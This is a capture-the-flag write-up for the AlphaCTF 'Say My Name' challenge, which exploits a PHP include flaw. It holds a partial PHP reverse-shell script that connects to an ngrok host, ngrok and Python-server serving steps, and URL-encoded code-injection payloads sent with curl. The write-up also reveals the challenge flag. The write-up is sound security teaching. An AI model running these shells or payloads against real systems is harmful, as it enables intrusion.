

# Say My Name

## Description

> My name is flag
> 
> Can you say it? [say_my_name.zip](saymyname.zip)
> 
> https://challenges.ctf.alphabit.club:1404 

## Write-Up

When checking the code given, we can see that the `include` instruction is miss used, which leads to a **File Inclusion Vulnerability**.

Let's try to perform an **RFI (Remote File Inclusion)** for that :

### Tests

create a `malicious.php` to read the flag and `red.php` for reverse shell files :

```php
<?php echo $flag ?>
```

```php
<?php


set_time_limit (0);
$VERSION = "1.0";
$ip = 'c2d8-105-102-243-155.eu.ngrok.io';  // CHANGE THIS
$port = 1337;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

...

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?>  
```

Then serve it using ngrock :

```
ngrok http 8080
```

We need a python server :

```
python3 -m http.server 8080 
```

**Note :** Run both commands in the directory you want to serve.

We get :



Now let's give it to the website :

```
https://challenges.ctf.alphabit.club:1404/?src=https://c2d8-105-102-243-155.eu.ngrok.io/malicious.php
```

Appearantly this won't work. And this is because the presence of `"data://text/plain;base64,"`, which enables us to inject directly `php` code in the `src` property. With double Encoding to bypass the `?` we get:

```
<?php echo $flag ?>
```

With this we get :

```
hmmm
```

```
%3c%3f%70%68%70%20%65%63%68%6f%20%22%24%66%6c%61%67%22%20%3f%3e%0a
```

With this we get :

```
hmmm
```

```
%25%33%63%25%33%66%25%37%30%25%36%38%25%37%30%25%32%30%25%36%35%25%36%33%25%36%38%25%36%66%25%32%30%25%32%32%25%32%34%25%36%36%25%36%63%25%36%31%25%36%37%25%32%32%25%32%30%25%33%66%25%33%65%25%30%61
```

But with that we get

```
my name is: %3c%3f%70%68%70%20%65%63%68%6f%20%22%24%66%6c%61%67%22%20%3f%3e%0a
```

Unfortuantly, the code isn't executed, so we move to next strategy.

### Solution

The solution is actually to use an alternative for the `php` `<?php ?>` wrappings.

For that we have th following :


```
<% echo "$flag"; %>

<script language="php"> echo "$flag"; </script>
```

Lets url encode (a must do) them and try send them :

 - Url encoding of each :

```
%3C%25%20echo%20%22%24flag%22%3B%20%25%3E

%3Cscript%20language%3D%22php%22%3E%20echo%20%22%24flag%22%3B%20%3C%2Fscript%3E%20
```

 - Sending requests :

```
└─$ curl "https://challenges.ctf.alphabit.club:1404/?src=%3C%25%20echo%20%22%24flag%22%3B%20%25%3E"
  

my name is:
<% echo "$flag"; %>


└─$ curl "https://challenges.ctf.alphabit.club:1404/?src=%3Cscript%20language%3D%22php%22%3E%20echo%20%22%24flag%22%3B%20%3C%2Fscript%3E%20"
  

my name is:
AlphaCTF{7hanK_G0D_7HIs_15_NO7_AvA1lAbLe_1N_n3W3r_vErSIOns}    
```


## Flag

AlphaCTF{7hanK_G0D_7HIs_15_NO7_AvA1lAbLe_1N_n3W3r_vErSIOns}

## More Information

 - `include`, manual : https://www.php.net/manual/en/function.include.php
 - File Inclusion Vulnerability : 
   - https://brightsec.com/blog/file-inclusion-vulnerabilities/
   - https://tutorialboy.hashnode.dev/php-a-file-inclusion-vulnerability
   - https://medium.com/@nyomanpradipta120/local-file-inclusion-vulnerability-cfd9e62d12cb
 - Bypass strpor : https://bugs.php.net/bug.php?id=76671
 - Remote File Inclusion : https://www.invicti.com/learn/remote-file-inclusion-rfi/
 - Catch reverse Shell on the net : https://systemweakness.com/how-to-catch-a-reverse-shell-over-the-internet-66d1be5f7bb9
 - PHP openning and closing tags : https://www.php.net/manual/en/language.basic-syntax.phptags.php
 - Alternatives for php openning and closing tag :
   - https://wiki.php.net/rfc/remove_alternative_php_tags
   - https://www.phpforkids.com/php/php-syntax-opening-closing-tags.php
